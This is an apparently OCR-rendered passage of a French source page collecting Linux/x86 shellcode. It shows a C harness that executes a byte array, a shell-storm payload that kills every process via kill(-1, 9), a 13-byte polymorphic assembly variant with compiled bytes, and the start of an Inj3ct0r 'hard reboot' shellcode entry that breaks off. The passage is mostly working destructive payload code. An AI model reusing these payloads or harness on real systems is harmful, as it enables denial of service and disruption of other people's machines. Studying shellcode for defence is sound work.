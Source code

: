 ```c
 *      pop eax
 *      push byte -1
 *      pop ebx
 *      push byte 9
 *      pop ecx
 *      int 0x80
 */

main()
{
       char shellcode[] = "\x6a\x25\x58\x6a\xff\x5b\x6a\x09\x59\xcd\x80";

       (*(void (*)()) shellcode)();
}
```

```c
http://shell-storm.org/shellcode/files/shellcode-212.php
11 byte shellcode to kill all processes for Linux/x86
Polymorphic version 13 bytes
Author : Alain Menelet

global _start

section .text

_start:

    xor ecx, ecx
    mul ecx
    mov al, 0x25
    push byte -1
    pop ebx
    mov cl, 0x9
    int 0x80
```

We compile it all:

```c
Taille: 13
"\x31\xc9\xf7\xe1\xb0\x25\x6a\xff\x5b\xb1\x09\xcd\x80"
```

### Troisième version ###

Source : http://shell-storm.org/shellcode/files/shellcode-639.php

```c
/*
1-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=0
0     _                   __           __       __                     1
1   /' \            __  /'__`\        /\ \__  /'__`\                   0
0  /\_, \    ___   /\_\/\_\ \ \    ___\ \ ,_\/\ \/\ \  _ ___           1
1  \/_/\ \ /' _ `\ \/\ \/_/_\_<_  /'___\ \ \/\ \ \ \ \/\`'__\          0
0     \ \ \/\ \/\ \ \ \ \/\ \ \ \/\ \__/\ \ \_\ \ \_\ \ \ \/           1
1      \ \_\ \_\ \_\_\ \ \ \____/\ \____\\ \__\\ \____/\ \_\           0
0       \/_/\/_/\/_/\ \_\ \/___/  \/____/ \/__/ \/___/  \/_/           1
1                  \ \____/ >> Exploit database separated by exploit   0
0                   \/___/          type (local, remote, DoS, etc.)    1
1                                                                      1
0  [+] Site            : Inj3ct0r.com                                  0
1  [+] Support e-mail  : submit[at]inj3ct0r.com                        1
0                                                                      0
0-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-==-=-=-1
Title  : hard reboot (without any message) and data not lost shellcode
```